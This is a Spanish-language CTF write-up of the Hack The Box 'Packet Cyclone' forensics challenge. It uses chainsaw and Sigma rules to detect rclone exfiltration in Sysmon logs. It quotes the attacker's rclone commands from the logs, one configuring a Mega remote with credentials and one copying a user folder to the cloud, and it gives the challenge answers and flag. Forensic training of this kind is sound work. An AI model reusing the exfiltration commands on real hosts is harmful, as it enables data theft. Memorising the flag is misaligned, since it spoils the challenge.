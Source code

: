 ```yaml
---
layout: single
title: Packet Cyclone - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el quinto desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad fácil y consiste en analizar un archivo de registro de eventos de Windows (.evtx) generado por el servicio Sysmon. En este archivo se registra la ejecución sospechosa del software Rclone a través de la línea de comandos en un equipo con Windows. Nuestra tarea consiste en responder todas las preguntas solicitadas para que la plataforma de HTB nos entregue la flag del desafío."
date: 2023-03-22
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - chainsaw
  - sigma rules
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** easy

## Enunciado

_El amigo y socio de Pandora, Wade, es quien dirige la investigación sobre la ubicación de la reliquia. Recientemente, notó un tráfico extraño proveniente de su host. Eso lo llevó a creer que su host estaba comprometido. Después de una rápida investigación, se confirmó su temor. Pandora intenta ahora ver si el atacante provocó el tráfico sospechoso durante la fase de exfiltración. Pandora cree que el actor malicioso usó rclone para filtrar la investigación de Wade a la nube. Usando la herramienta llamada "chainsaw" y las reglas sigma provistas, ¿puede detectar el uso de rclone de los registros de eventos producidos por Sysmon? Para obtener la bandera, debe iniciar y conectarse al servicio docker y responder todas las preguntas correctamente._

## Archivos del desafio

Se nos entrega un archivo comprimido en formato `.zip`, que contiene una carpeta de registro de logs de Windows con 149 archivos `.evtx`, así como una segunda carpeta llamada `sigma_rules`, que contiene dos reglas sigma en formato `.yaml`. El objetivo de este desafío es utilizar la herramienta `chainsaw`, junto con las reglas sigma, para analizar todos los archivos `.evtx` de Windows y encontrar la ejecución sospechosa del software Rclone. Parece ser que este software ha sido utilizado para exfiltrar información de una computadora previamente comprometida.

La herramienta `chainsaw` esta disponible para `Linux` y `Windows` en su repositorio de [GitHub](https://github.com/WithSecureLabs/chainsaw).

En mi caso, utilizaré la versión para Linux de la herramienta `chainsaw`, y solo trabajaré con los registros presentes en el archivo `Microsoft-Windows-Sysmon Operational.evtx`. Seguiré esta arquitectura de archivos específica según lo indicado en el enunciado del desafío:
```
❯ tree
.
├── chainsaw
│   ├── chainsaw
│   ├── LICENCE
│   ├── mappings
│   │   ├── sigma-event-logs-all.yml
│   │   ├── sigma-event-logs-legacy.yml
│   │   └── sigma-mft-logs-all.yml
│   └── README.md
├── Logs
│   └── Microsoft-Windows-Sysmon%4Operational.evtx
└── sigma_rules
    ├── rclone_config_creation.yaml
    └── rclone_execution.yaml

5 directories, 9 files
```

## Chainsaw

Tal como se indica en su repositorio de GitHub, `Chainsaw` proporciona una potente capacidad de "primera respuesta" para identificar rápidamente amenazas dentro de los artefactos forenses de Windows, como los archivos `.evtx` ubicados en la ruta `C:\Windows\System32\winevt\Logs`. `Chainsaw` ofrece un método genérico y rápido para buscar palabras clave en los registros de eventos y detectar amenazas mediante la integración incorporada de las reglas de detección de Sigma y las reglas de detección personalizadas de `Chainsaw`.

En este caso, el desafío ya nos proporciona las reglas Sigma que utilizaremos, las cuales se encuentran en la carpeta `sigma_rules`. Al ejecutar la herramienta a través de la interfaz de línea de comandos (CLI), el comando se vería de la siguiente manera:
```
❯ ./chainsaw hunt ../Logs -s ../sigma_rules --mapping mappings/sigma-event-logs-all.yml
```

El comando anterior indica a la herramienta `Chainsaw` que se ejecute en modo `hunt` sobre todos los archivos dentro de la carpeta `Logs`. Luego, utiliza todas las reglas sigma proporcionadas en el desafío para la lógica de detección, y por último, utiliza el archivo `sigma-event-logs-all.yml` para el análisis de los registros.

Luego de ejecutar el comando, la salida se verá de la siguiente manera:
![](/assets/images/htb-cyber-apocalypse-packet-cyclone/chainsaw.png)

Y el detalle sería este:
```
CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI'
Company: https://rclone.org 
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v161.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D92B-63F8-B100-000000000900
ProcessId: 3820
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:07.336


CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
Company: https://rclone.org
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
ProcessId: 5116
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:17.516
```

Con toda la información anterior, ya podemos conectarnos al contenedor Docker de HTB y responder las siguientes preguntas.

# Preguntas

1. ¿Cuál es el correo electrónico del atacante utilizado para el proceso de exfiltración? (por ejemplo: nombre@email.com)
Si observamos los detalles encontrados por la herramienta `Chainsaw`, podemos ver que se ha ejecutado el siguiente comando a través de PowerShell:
```
rclone.exe config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI
```
  `Respuesta: majmeret@protonmail.com`

2. ¿Cuál es la contraseña del atacante utilizada para el proceso de exfiltración?
En el comando anterior, también se puede observar esta respuesta:

  `Respuesta: FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI`

3. ¿Cuál es el proveedor de almacenamiento en la nube que utiliza el atacante?
Esta respuesta la deduje por descarte, en un principio intenté encontrar alguna URL u otra pista que indicara el proveedor de nube, pero en realidad es tan simple como observar que en el comando anterior se menciona el servicio de Mega.

  `Respuesta: mega`

4. ¿Cuál es el ID del proceso utilizado por los atacantes para configurar su herramienta?
Al observar los detalles de las dos detecciones encontradas por Chainsaw, podemos identificar que la primera detección corresponde a la configuración y la segunda detección corresponde a la exfiltración. Por lo tanto, el ID de proceso de la configuración es 3820.

  `Respuesta: 3820`

5. ¿Cuál es el nombre de la carpeta que exfiltro el atacante? proporcionar la ruta completa.
Para responder a esta pregunta, debemos examinar el detalle de la segunda detección, que corresponde al proceso de exfiltración. En este caso, se ha ejecutado el siguiente comando a través de PowerShell:
```
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
```
  `Respuesta: C:\Users\Wade\Desktop\Relic_location`


6. ¿Cuál es el nombre de la carpeta a la que el atacante extrajo los archivos?
En el comando anterior, podemos observar que el destino es `remote:exfiltration`, lo que indica que el nombre de la carpeta es `exfiltration.`

  `Respuesta: exfiltration`

Luego de responder estas seis simples preguntas, el contenedor Docker de HTB nos proporcionará la flag.}

## Flag

**HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}**


